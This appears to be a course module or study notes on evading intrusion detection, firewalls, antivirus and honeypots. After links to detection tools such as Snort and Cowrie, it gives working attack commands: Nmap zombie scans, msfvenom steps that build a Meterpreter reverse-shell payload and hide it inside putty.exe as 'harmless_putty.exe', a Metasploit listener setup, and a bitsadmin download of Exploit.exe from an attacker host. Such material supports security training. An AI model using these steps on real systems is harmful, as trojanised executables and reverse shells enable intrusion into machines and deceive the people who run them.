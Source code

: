 # Module 12

## Evading IDS, antivirus and Honeypots
Intrusion Detection Systems (IDS) add a critical security layer, making them prime targets. Attackers use sophisticated evasion techniques to bypass detection and compromise the infrastructure. Similarly, firewalls relying on predefined rules can be tricked by skilled attackers using various bypass methods to allow malicious traffic to pass unfiltered.

---

### 1. Intrusion Detection using various tools
The goal of the Intrusion Detection Analyst is to find possible attacks against a network.

#### 1.1 Detect Intrusion using snort
[Snort - Network Intrusion Detection & Prevention System](https://www.snort.org/)

#### 1.2 Detect Malicious traffic with Zone alarm free firewall
[ZoneAlarm Free Firewall](https://www.zonealarm.com/software/free-firewall)

#### 1.3 Detect Malicious traffic using HoneyBot
[HoneyBot](https://honeybot.software.informer.com)

#### 1.4 Deploy Cowrie Honeypot to Detect Malicious Network Traffic
Cowrie serves as an SSH and Telnet honeypot, capable of capturing brute-force attacks and the actions taken by attackers within the shell.
[GitHub - cowrie/cowrie: Cowrie SSH/Telnet Honeypot https://cowrie.readthedocs.io](https://github.com/cowrie/cowrie)

---

### 2. Evade Firewall using Evasion Techniques
<img width="428" height="575" alt="image" src="https://github.com/user-attachments/assets/a333df1e-0c81-4fb8-8f58-7872bb5c2bac" />

#### 2.1 Bypass firewall using Nmap
Add a rule in windows firewall to block all traffic from the attacking machine.
In Ping sweep, the host will appear as online
- `nmap -sP 192.168.18.0/24`  only discover which hosts are up
Zombie scan can bypass the firewall rule
- `nmap -sI 192.168.18.2 192.168.18.11`  .2 is the zombie, .11 is the target

#### 2.2 Bypass firewall rules using HTTP/ FTP Tunneling 
HTTPort is a tool that bypasses restrictive HTTP proxies. It tunnels blocked traffic (like email or FTP) through an allowed HTTP connection.

**It works by**:
1. Sending data to a remote server (HTTHost) outside the blocked network using a series of HTTP requests.
2. The proxy sees this as normal web surfing and allows it.
3. The HTTHost server then forwards the traffic to the intended destination.
> This method is reliable and features strong encryption, making proxy logs useless.
[HTTPort, secure TCP through HTTP tunneling](https://www.targeted.org/htthost/)

**Steps**:
You generated a basic, easily detectable payload:
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe`
You downloaded putty.exe to use as a legitimate template:
- `wget https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe -O template.exe`
You injected your payload into that template to create a more evasive executable:
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x template.exe -k -f exe -o harmless_putty.exe`
**Result**: Your final payload is saved as harmless_putty.exe.

Start the Listener on Your Kali Machine
- `msfconsole -q`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST 192.168.1.100`
- `set LPORT 4444`
- `exploit -j`


#### 2.3 Bypass antivirus using metasploit templates
Attackers use msfvenom with the -x flag to embed a malicious payload into a legitimate, trusted executable file (like calc.exe). This tricks antivirus software into seeing the file as safe because it recognizes the trusted program's signature, allowing the hidden payload to bypass detection.

**How It's Done**
1. Acquire a Legitimate Template: Find a clean, signed executable from a trusted source. This will be your new template.
2. Inject the Payload: Use msfvenom to inject your malicious Metasploit payload (e.g., a reverse shell) into this legitimate executable.
3. The Bypass: The resulting file has the digital signature and code structure of the trusted software, but contains your hidden payload. AV is less likely to flag it because it appears to be a known-good program.

**Basic msfvenom Command**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -x /path/to/legitimate_file.exe -k -f exe -o malicious_output.exe`
  - `-x /path/to/legitimate_file.exe`: Specifies your clean template.
  - `-k`: Tells Metasploit to preserve the template's original functionality alongside the payload. The legitimate program will still run to avoid suspicion.

---

#### 2.4 Bypass firewall using windows BITSAdmin
The utilty can be used to transfer files in windows command prompt.    
BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems. BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.
bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe

---
---
